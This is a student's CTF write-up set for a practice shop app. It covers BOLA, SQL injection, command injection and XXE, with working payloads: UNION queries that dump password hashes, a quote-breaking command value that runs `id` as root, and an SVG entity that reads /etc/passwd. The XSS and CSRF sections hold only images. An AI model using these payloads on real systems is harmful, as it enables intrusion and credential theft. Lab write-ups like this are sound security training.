# ScalerKart CTF — Writeups
**Student ID:** 23bcs10140

---

## Writeup 1 — Order Mix-up (BOLA)

**1. Vulnerability Title**
Broken Object Level Authorization on the order detail API.

**2. Description**
The API at `/api/orders/{id}` checks if I'm logged in but not whether the order is mine. Changing the ID in the URL lets me read any customer's order.

**3. Steps to Reproduce**
1. Logged in as customer1, opened my own order and noted its ID.
2. Used Burp Intruder to fuzz `/orders/§id§` — all returned 404, showing the frontend route doesn't exist.
3. Switched to the API endpoint and sent `GET /api/orders/2` in Burp Repeater with my session cookie.
4. Got back a full order that wasn't mine — another user's Yoga Mat order, their shipping address (221B Baker Street, Bengaluru), and partial card number 1081.





**4. Impact**
Any logged-in customer can read every order in the system — names, addresses, items, payment info.

**5. Remediation**
Check server-side that the order's user_id matches the logged-in user on every request. Return 403 if it doesn't.

**6. CVSS Score**
Vector: CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N
Score: 6.5 - Medium

---

## Writeup 2 — Hidden Inventory (SQL Injection)

**1. Vulnerability Title**
UNION-based SQL Injection in the product search bar.

**2. Description**
The search input is concatenated directly into a SQL query. I injected a UNION clause to pull data from tables the app never intended to expose, including the users table with password hashes.

**3. Steps to Reproduce**
1. Entered `'` in the search box — got a database error, confirming injection.
2. Found the column count: `' ORDER BY 4--` worked, `' ORDER BY 5--` errored → 4 columns.
3. Confirmed reflected columns with `' UNION SELECT 1,2,3,4--` — columns 2 and 4 appear on the page.
4. Listed all tables:
   ```
   ' UNION SELECT 1,name,3,4 FROM sqlite_master WHERE type='table'--
   ```
   Table names appeared as fake product cards — found `users`.
5. Got the schema:
   ```
   ' UNION SELECT 1,sql,3,4 FROM sqlite_master WHERE type='table' AND name='users'--
   ```
6. Dumped credentials:
   ```
   ' UNION SELECT 1,username,3,password_hash FROM users--
   ```





**4. Impact**
Full database read — all user credentials exposed, attacker can crack passwords or escalate access.

**5. Remediation**
Use parameterised queries. Never build SQL strings by joining user input.

**6. CVSS Score**
Vector: CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H
Score: 8.8 - High

---

## Writeup 3 — Label Printer (Command Injection)

**1. Vulnerability Title**
OS Command Injection in the shipping label recipient name field.

**2. Description**
The recipient name is passed unsanitised into a shell command wrapped in single quotes. Closing the quote and appending a second command causes it to execute on the server. The output appears in the label status endpoint.

**3. Steps to Reproduce**
1. Went to my order and clicked Generate Shipping Label.
2. Intercepted `POST /orders/1/label` in Burp — body was `{"recipient_name": "test"}`.
3. Changed the value to `x'; id; echo '` and forwarded.
4. Response: `{"status":"queued"}`
5. Sent `GET /orders/1/label/status` a couple of seconds later.
6. Response showed command output:
   ```json
   {"log":"Label printed for x\nuid=0(root) gid=0(root) groups=0(root)\n"}
   ```
   The `id` command ran as root.





**4. Impact**
Remote code execution as root — complete server takeover, data exfiltration, access to all internal services.

**5. Remediation**
Never pass user input to a shell. Use a language-native library for label generation. Allow-list the recipient name field strictly.

**6. CVSS Score**
Vector: CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H
Score: 8.8 - High

---

## Writeup 4 — Supplier Upload (XXE via SVG)

**1. Vulnerability Title**
XML External Entity (XXE) injection via SVG product image upload.

**2. Description**
The seller dashboard lets you upload SVG product images. The server parses the SVG XML server-side and extracts the `<title>` element as a caption. By injecting an external entity in the DOCTYPE pointing to a local file, the server reads the file and returns its contents in the caption field.

**3. Steps to Reproduce**
1. Logged in as seller1 / Seller123!, went to Seller Dashboard → Upload Product Image (SVG).
2. Created `evil.svg` with this payload:
   ```xml
   <?xml version="1.0" encoding="UTF-8"?>
   <!DOCTYPE svg [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
   <svg xmlns="http://www.w3.org/2000/svg">
     <title>&xxe;</title>
   </svg>
   ```
   The entity reference must be in `<title>` — that is what the server reads as the caption.
3. Uploaded the file via the UI.
4. Response on the page: `Caption set: root:x:0:0:root:/root:/bin/bash daemon:x:1:1...`
   The full contents of `/etc/passwd` appeared as the caption.





**4. Impact**
Read any file on the server the app process has access to — source code, `.env` secrets, `/etc/passwd`, private keys.

**5. Remediation**
Disable external entity resolution and DTD processing in the XML parser. Never expose parsed SVG content directly to users.

**6. CVSS Score**
Vector: CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:N/A:N
Score: 7.7 - High

---

## Writeup 5 — DOM XSS — Wishlist postMessage



---

## Writeup 6 — CSRF — Remove Saved Address




